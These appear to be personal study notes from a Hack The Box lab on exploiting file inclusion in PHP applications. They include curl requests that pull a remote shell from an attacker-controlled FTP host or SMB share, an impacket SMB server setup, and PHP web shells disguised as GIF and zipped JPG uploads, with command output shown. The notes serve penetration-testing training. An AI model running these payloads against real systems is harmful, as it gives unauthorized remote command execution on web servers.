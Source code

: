 
```shell
pradyun2005@htb[/htb]$ curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://anonymous:anonymous@10.10.14.170/shell.php&cmd=id'
...SNIP...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


### SMB

 - if Web Application hosted in windows server then ==SMB== is used for RFI
 -  do not need the `allow_url_include` setting to be enabled for RFI exploitation

```shell
pradyun2005@htb[/htb]$ impacket-smbserver -smb2support share $(pwd)
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```


```
pradyun2005@htb[/htb]$ curl 'http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=id'
...SNIP...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```





## LFI and File Uploads


### Image upload

```shell
pradyun2005@htb[/htb]$ echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

**Uploaded FIle Path**

```html
<img src="/profile_images/shell.gif" class="profile-image" id="profile-image">
```

![[Pasted image 20240614125308.png]]


### Zip Upload

```shell
pradyun2005@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```
- zipping shell.php with shell.jpg
- `zip://shell.jpg` refer files with in it with `#shell.php`
```
http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```
